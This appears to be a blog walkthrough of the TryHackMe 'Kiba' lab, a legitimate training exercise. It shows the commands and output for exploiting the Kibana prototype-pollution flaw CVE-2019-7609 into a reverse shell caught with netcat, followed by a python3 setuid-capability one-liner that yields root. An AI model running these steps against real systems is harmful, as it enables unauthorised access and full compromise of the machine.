```yaml
---
layout: post
title: "THM - Kiba"
date: 2023-06-07  
categories: [Tryhackme, THM-linux]
tags: [kiba, elastic, prototype pollution, CVE-2019-7609]
image: https://github.com/sh3bu/sh3bu.github.io/assets/67383098/eb4a6abc-0056-4511-9da8-3c79d7b866ab
---
```


**Kiba** is a easy rated room from tryhackme where we exploit a prototype pollution vulnerability to gain a user shell  & then escalate our privileges to root by exploiting a python3 binary which has setuid capabilities.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/d56c1402-f735-4d9b-a9c3-4351611433ef)

|  **Room** 	| Kiba                                          	|
|:--------------:	|----------------------------------------------------	|
|     **OS**     	| Linux                                              	|
| **Difficulty** 	| Easy                                             	|
|  **Room Link** 	| [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)               	|
|   **Creator**  	| [stuxnet](https://tryhackme.com/p/stuxnet) 	|


## What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/698e9f80-fccf-49e8-8e0a-4259426abb89)

> Vulnerability - Prototype Pollution

## What is the version of visualization dashboard installed in the server?

Go to **Management tab** , there we can find the version of kiba that is running.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/c37a64bd-5b7a-4ac2-af0a-d3fca7ac158d)

> Version - 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 /

A simple google search reveals the **CVE** number.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/14e1e57c-7956-484d-9518-3964b66eb702)

> CVE ID - CVE-2019-7609

## Compromise the machine and locate user.txt

An python3 exploit for prototype pollution is available on github for  kibana  6.5.4 

- [https://github.com/LandGrey/CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

*Run the Exploit*

```bash
amrita22005client@ubuntu:~/kiba$ python3 exploit.py http://10.10.38.106:5601 10.17.45.3 4444
/home/amrita22005client/kiba/exploit.py:15: DeprecationWarning: The distutils package is deprecated and slated for removal in Python 3.12. Use setuptools or check PEP 632 for potential alternatives
  from distutils.version import StrictVersion
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 10.17.45.3:4444
```

We get our reverse shell

```bash
shebut@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_*********_rce}
```

> **Capabilities is a concept that provides a security system that allows "divide" root privileges into different values**

## How would you recursively list all of these capabilities?

Command to list all capabilities - `getcap -r /`

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
Straightaway we can see that python3 has a suspicious path.

We can go to [GTFOBINS](https://gtfobins.github.io/gtfobins/python/#capabilities) to exploit the python binary which has setuid capabilities by runing the command `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash 
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

# cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
Now we have our root shell & our root flag.



